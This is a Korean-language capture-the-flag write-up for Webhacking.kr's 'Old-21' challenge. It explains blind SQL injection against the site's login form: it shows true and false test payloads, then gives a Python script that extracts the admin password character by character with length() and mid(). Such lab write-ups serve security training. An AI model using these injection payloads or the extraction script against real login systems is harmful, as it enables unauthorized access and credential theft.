

# _Old-21_

**Category:** _Web_

**Source:** _Webhacking.kr_

**Points:** _250_

**Author:** _galaxy(김경환)_

**Description:** 

> 

## Point
blind sql injection

## Write-up

문제 화면에 BLIND SQL INJECTION이라고 친절히 알려줍니다.

blind sql injection의 전제조건이 query가 참일때와 거짓일때 반응이 다르게 나타나야 합니다.

id와 pw를 입력하는 창만있고 join을 해서 계정을 생성 할 수 없습니다.

따라서 참일때를 알려면 admin에 맞는 pw를 입력해야 하는데 이것을 알아내야 합니다.

그래서 "admin' and 1 -- "을 주어서 참을 입력해보았습니다.


참일때는 wrong password가 나타납니다.

이번에는 "admin' and 0 -- "을 주어서 거짓을 입력해보았습니다.


거짓일때는 login fail이 나타납니다. query가 참일때와 거짓일때 두가지형태로 보이니 blind sql injection이 가능합니다.

우리가 알아야 하는 부분은 admin에 대한 pw입니다. column name도 pw인지 알아보기 위해 "admin' and length(pw)>1 -- "을 주었습니다.

wrong password가 나타나서 column name도 pw인것을 알 수 있었습니다.

pw에 대한 길이를 찾고, mid()를 사용해서 각 자리마다 값을 찾아서 pw를 찾았습니다.

아래는 python script입니다.

```python
import requests
import string

url="https://webhacking.kr/challenge/bonus-1/index.php?id="
url2="&pw=a"
cookies={'PHPSESSID':'76rhlapfpg26rmbjsap6adr6ll'}

length=0

for i in range(50):
	URL=url+"admin' and length(pw)="+str(i)+" -- "+url2
	response=requests.get(URL,cookies=cookies)
	if 'wrong password' in response.text:
		length=i
		break

print('length is '+str(length))

pw=''
for i in range(1,length+1):
	for ch in ' !@#$%^&*()_+<>'+string.digits+string.letters:
		URL=url+"admin' and mid(pw,"+str(i)+",1)='"+ch+"' -- "+url2
		response=requests.get(URL,cookies=cookies)
		if 'wrong password' in response.text:
			pw+=ch
			break
print('pw is '+pw)
```


